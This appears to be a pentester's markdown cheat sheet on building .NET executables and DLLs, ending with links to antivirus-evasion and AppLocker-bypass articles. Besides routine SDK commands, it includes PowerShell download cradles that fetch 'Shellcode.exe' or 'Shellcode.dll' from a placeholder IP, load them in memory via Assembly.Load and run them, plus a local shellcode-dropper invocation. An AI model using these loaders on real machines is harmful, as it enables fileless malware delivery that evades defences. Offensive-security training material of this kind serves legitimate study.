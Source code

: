 # Dotnet

## 01 - C\#

- Setup Dotnet SDK

`$ sudo ./dotnet-install.sh -i /usr/share/dotnet -c 6.0`

- Completely uninstall specific dotnet version

```bash
SDK_VERSION="5.0.16"
DOTNET_VERSION="5.0.213"
DOTNET_UNINSTALL_PATH="/usr/share/dotnet"
rm -rf $DOTNET_UNINSTALL_PATH/sdk/$SDK_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.NETCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.All/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/shared/Microsoft.AspNetCore.App/$DOTNET_VERSION
rm -rf $DOTNET_UNINSTALL_PATH/host/fxr/$DOTNET_VERSION
```

- Create .NET Console Project

`> dotnet new console`

- Compile C# Project of Windows executable

```
> dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true

> dotnet publish -r win10-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true

> dotnet publish -f net6.0 -r win-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true
```

Or you can just use `build`

```
> dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true

> dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true
```

`$ cat download-cradle-exe.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.exe")
$assem = [System.Reflection.Assembly]::Load($data)
[Shell.Program()]::Main()
# [Program()]::Main()
# [Shell.Program()]::Main("".Split())
```

- Compile C# DLL

```
> dotnet new classlib

> dotnet publish -r win-x64 -c Release --sc false -p:PublishTrimmed=true

> dotnet build -r win-x64 -c Release --sc false -p:PublishTrimmed=true
```

Allow unsafe code

```
> dotnet publish -r win-x64 -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true

> dotnet build -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true
```

Execute Shellcode

```
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
PS C:\> [RunDLLPublicFunc.Class1]::runner()
```

`$ cat download-cradle-dll.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")
$assembly = [System.Reflection.Assembly]::Load($data)
$class = $assembly.GetType("Shellcode.Class1")
$method = $class.GetMethod("<method_name>")
$method.Invoke(0, $null)
```

---
## References

- [Arch Linux Wiki .NET](https://wiki.archlinux.org/title/.NET)

- [https://medium.com/@carlosprincipal1/how-to-bypass-antivirus-av-2020-easy-method-69749892928b](https://medium.com/@carlosprincipal1/how-to-bypass-antivirus-av-2020-easy-method-69749892928b)

- [Purpl3f0xsecur1ty.tech AV Evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)

- [https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/](https://pentestlab.blog/2017/06/06/applocker-bypass-assembly-load/)

- [In3x0rabl3: OSEP](https://github.com/In3x0rabl3/OSEP)

- [https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481)